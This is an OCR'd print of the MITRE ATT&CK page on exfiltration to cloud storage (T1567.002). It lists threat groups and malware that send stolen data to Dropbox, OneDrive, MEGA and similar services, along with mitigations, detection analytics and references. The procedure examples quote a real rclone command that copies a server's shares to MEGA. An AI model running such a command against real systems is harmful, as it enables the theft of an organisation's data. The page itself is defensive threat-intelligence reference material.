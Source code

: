 3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 1/6Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 2/6Home>Techniques>Enterprise>Exﬁltration Over Web Service>Exﬁltration to Cloud Storage3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 3/6Exﬁltration Over Web Service: Exﬁltration to Cloud
Storage
Adversaries may exﬁltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage
services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.
Examples of cloud storage services include Dropbox and Google Docs. Exﬁltration to these cloud storage services can provide a signiﬁcant
amount of cover to the adversary if hosts within the network are already communicating with the service.Other sub-techniques of Exﬁltration Over Web Service (4)
Version PermalinkID: T1567.002
Sub-technique of:  T1567

Tactic: Exﬁltration

Platforms: Linux, Windows, macOS
Version: 1.2
Created: 09 March 2020
Last Modiﬁed: 15 September 20233/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 4/6Procedure Examples
ID Name Description
S0635 BoomBox BoomBox can upload data to dedicated per-victim folders in Dropbox.
S0651 BoxCaon BoxCaon has the capability to download folders' contents on the system and upload the results back to
its Dropbox drive.
C0015 C0015 During C0015, the threat actors exﬁltrated ﬁles and sensitive data to the MEGA cloud storage site using
the Rclone command rclone.exe copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-
existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M .
G0114 Chimera Chimera has exﬁltrated stolen data to OneDrive accounts.
S0660 Clambling Clambling can send ﬁles from a victim's machine to Dropbox.
G0142 Confucius Confucius has exﬁltrated victim data to cloud storage service accounts.
S1023 CreepyDrive CreepyDrive can use cloud services including OneDrive for data exﬁltration.
S0538 Crutch Crutch has exﬁltrated stolen data to Dropbox.
G1006 Earth Lusca Earth Lusca has used the megacmd tool to upload stolen ﬁles from a victim network to MEGA.
S0363 Empire Empire can use Dropbox for data exﬁltration.
G0046 FIN7 FIN7 has exﬁltrated stolen data to the MEGA ﬁle sharing site.
G0125 HAFNIUM HAFNIUM has exﬁltrated data to ﬁle sharing sites, including MEGA.
S0037 HAMMERTOSS HAMMERTOSS exﬁltrates data by uploading it to accounts created by the actors on Web cloud storage
providers for the adversaries to retrieve later.
G1001 HEXANE HEXANE has used cloud services, including OneDrive, for data exﬁltration.
G0094 Kimsuky Kimsuky has exﬁltrated stolen ﬁles and data to actor-controlled Blogspot accounts.
G0065 Leviathan Leviathan has used an uploader known as LUNCHMONEY that can exﬁltrate ﬁles to Dropbox.
G1014 LuminousMoth LuminousMoth has exﬁltrated data to Google Drive.
S0340 Octopus Octopus has exﬁltrated data to ﬁle sharing sites.
C0022 Operation Dream
JobDuring Operation Dream Job, Lazarus Group used a custom build of open-source command-line dbxcli to
exﬁltrate stolen data to Dropbox.
G1005 POLONIUM POLONIUM has exﬁltrated stolen data to POLONIUM-owned OneDrive and Dropbox accounts.
S0629 RainyDay RainyDay can use a ﬁle exﬁltration tool to upload speciﬁc ﬁles to Dropbox.
S1040 Rclone Rclone can exﬁltrate data to cloud storage services such as Dropbox, Google Drive, Amazon S3, and
MEGA.
S0240 ROKRAT ROKRAT can send collected data to cloud storage services such as PCloud.
G0027 Threat Group-
3390Threat Group-3390 has exﬁltrated stolen data to Dropbox.[1]
[2]
[3]
[4]
[5][6]
[7]
[8]
[9]
[10]
[11]
[12]
[13]
[14]
[8]
[15]
[16][17]
[18]
[19]
[20][21]
[8]
[22]
[23][3]
[24][25]
[5]3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 5/6ID Name Description
G0010 Turla Turla has used WebDAV to upload stolen USB ﬁles to a cloud drive. Turla has also exﬁltrated stolen
ﬁles to OneDrive and 4shared.
G0102 Wizard Spider Wizard Spider has exﬁltrated stolen victim data to various cloud storage providers.
G0128 ZIRCONIUM ZIRCONIUM has exﬁltrated stolen data to Dropbox.
Mitigations
ID Mitigation Description
M1021 Restrict Web-Based
ContentWeb proxies can be used to enforce an external network communication policy that prevents use of
unauthorized external services.
Detection
ID Data Source Data Component Detects
DS0017 Command Command
ExecutionMonitor executed commands and arguments that may exﬁltrate data to a cloud storage
service rather than over their primary command and control channel.
DS0022 File File Access Monitor for ﬁles being accessed to exﬁltrate data to a cloud storage service rather than
over their primary command and control channel.
DS0029 Network TraﬃcNetwork
Connection
CreationMonitor for newly constructed network connections to cloud services associated with
abnormal or non-browser processes.
Network Traﬃc
ContentMonitor and analyze traﬃc patterns and packet inspection associated to protocol(s) that
do not follow the expected protocol standards and traﬃc ﬂows (e.g extraneous packets
that do not belong to established ﬂows, gratuitous or anomalous traﬃc patterns,
anomalous syntax, or structure). Consider correlation with process monitoring and
command line to detect anomalous processes execution and command line arguments
associated to traﬃc patterns (e.g. monitor anomalies in use of ﬁles that do not normally
initiate connections for respective protocol(s)).
Network Traﬃc
FlowMonitor network data for uncommon data ﬂows. Processes utilizing the network that do
not normally have network communication or have never been seen before are
suspicious. Monitor for cloud storages for data exﬁltration.
Analytic 1 - Suspicious Data Exﬁl
suspicious\_exfil = filter network\_traffic where (httpHost = "dropbox.com"
or httpHost = "box.com" or httpHost = "drive.google.com" or httpHost =
"mega.io" or httpHost = "mediafire.com")[26]
[27]
[28]
[29]3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 6/6References
1. MSTIC. (2021, May 28). Breaking down NOBELIUM’s latest
early-stage toolset. Retrieved August 4, 2021.
2. CheckPoint Research. (2021, July 1). IndigoZebra APT
continues to attack Central Asia with evolving tools. Retrieved
September 24, 2021.
3. DFIR Report. (2021, November 29). CONTInuing the Bazar
Ransomware Story. Retrieved September 29, 2022.
4. Jansen, W . (2021, January 12). Abusing cloud services to ﬂy
under the radar. Retrieved January 19, 2021.
5. Lunghi, D. et al. (2020, February). Uncovering DRBControl.
Retrieved November 12, 2021.
. Chen, T. and Chen, Z. (2020, February 17). CLAMBLING - A
New Backdoor Base On Dropbox. Retrieved November 12,
2021.
7. Lunghi, D and Horejsi, J. (2018, February 13). Deciphering
Confucius: A Look at the Group's Cyberespionage Operations.
Retrieved December 26, 2021.
. Microsoft. (2022, June 2). Exposing POLONIUM activity and
infrastructure targeting Israeli organizations. Retrieved July 1,
2022.
9. Faou, M. (2020, December 2). Turla Crutch: Keeping the “back
door” open. Retrieved December 4, 2020.
10. Chen, J., et al. (2022). Delving Deep: An Analysis of Earth
Lusca’s Operations. Retrieved July 1, 2022.
11. Schroeder, W., Warner, J., Nelson, M. (n.d.). Github
PowerShellEmpire. Retrieved April 28, 2016.
12. Loui, E. and Reynolds, J. (2021, August 30). CARBON SPIDER
Embraces Big Game Hunting, Part 1. Retrieved September 20,
2021.
13. MSTIC. (2021, March 2). HAFNIUM targeting Exchange
Servers with 0-day exploits. Retrieved March 3, 2021.
14. FireEye Labs. (2015, July). HAMMERTOSS: Stealthy Tactics
Deﬁne a Russian Cyber Threat Group. Retrieved September 17,
2015.
15. An, J and Malhotra, A. (2021, November 10). North Korean
attackers use malicious blogs to deliver malware to high-
proﬁle South Korean targets. Retrieved December 29, 2021.1. Axel F, Pierre T. (2017, October 16). Leviathan: Espionage actor
spearphishes maritime and defense targets. Retrieved
February 15, 2018.
17. FireEye. (2018, March 16). Suspected Chinese Cyber
Espionage Group (TEMP.Periscope) Targeting U.S. Engineering
and Maritime Industries. Retrieved April 11, 2018.
1. Botezatu, B and etl. (2021, July 21). LuminousMoth - PlugX,
File Exﬁltration and Persistence Revisited. Retrieved October
20, 2022.
19. Cherepanov, A. (2018, October 4). Nomadic Octopus Cyber
espionage in Central Asia. Retrieved October 13, 2021.
20. Breitenbacher, D and Osis, K. (2020, June 17). OPERATION
IN(TER)CEPTION: Targeted Attacks Against European
Aerospace and Military Companies. Retrieved December 20,
2021.
21. ClearSky Research Team. (2020, August 13). Operation
'Dream Job' Widespread North Korean Espionage Campaign.
Retrieved December 20, 2021.
22. Vrabie, V. (2021, April 23). NAIKON – Traces from a Military
Cyber-Espionage Operation. Retrieved June 29, 2021.
23. Nick Craig-Wood. (n.d.). Rclone syncs your ﬁles to cloud
storage. Retrieved August 30, 2022.
24. Jazi, Hossein. (2021, January 6). Retrohunting APT37: North
Korean APT used VBA self decode technique to inject RokRat.
Retrieved March 22, 2022.
25. Cash, D., Grunzweig, J., Adair, S., Lancaster, T. (2021, August
25). North Korean BLUELIGHT Special: InkySquid Deploys
RokRAT. Retrieved October 1, 2021.
2. Symantec DeepSight Adversary Intelligence Team. (2019,
June 20). Waterbug: Espionage Group Rolls Out Brand-New
Toolset in Attacks Against Governments. Retrieved July 8,
2019.
27. Faou, M. (2020, May). From Agent.btz to ComRAT v4: A ten-
year journey. Retrieved June 15, 2020.
2. Shilko, J., et al. (2021, October 7). FIN12: The Proliﬁc
Ransomware Intrusion Threat Actor That Has Aggressively
Pursued Healthcare Targets. Retrieved June 15, 2023.
29. Singh, S. and Antil, S. (2020, October 27). APT-31 Leverages
COVID-19 Vaccine Theme and Abuses Legitimate Online
Services. Retrieved March 24, 2021.